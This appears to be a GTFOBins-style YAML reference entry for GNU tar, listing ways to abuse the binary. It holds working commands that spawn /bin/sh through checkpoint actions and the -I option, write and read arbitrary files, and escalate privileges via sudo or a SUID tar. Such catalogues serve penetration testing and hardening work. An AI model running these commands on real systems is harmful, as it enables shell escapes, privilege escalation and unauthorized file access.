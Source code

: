 ```yaml
---
functions:
  execute-interactive:
    - code: tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
  execute-non-interactive:
    - description: This only works for GNU tar.
      code: tar xf /dev/null -I '/bin/sh -c "id 1>&2"'
  file-write:
    - description: This only works for GNU tar.
      code: |
        LFILE=file_to_write
        TF=$(mktemp)
        echo DATA > "$TF"
        tar c --xform "s@.*@$LFILE@" -OP "$TF" | tar x -P
  file-read:
    - description: This only works for GNU tar.
      code: |
        LFILE=file_to_read
        tar xf "$LFILE" -I '/bin/sh -c "cat 1>&2"'
  sudo-enabled:
    - code: sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
  suid-limited:
    - code: ./tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
---
```

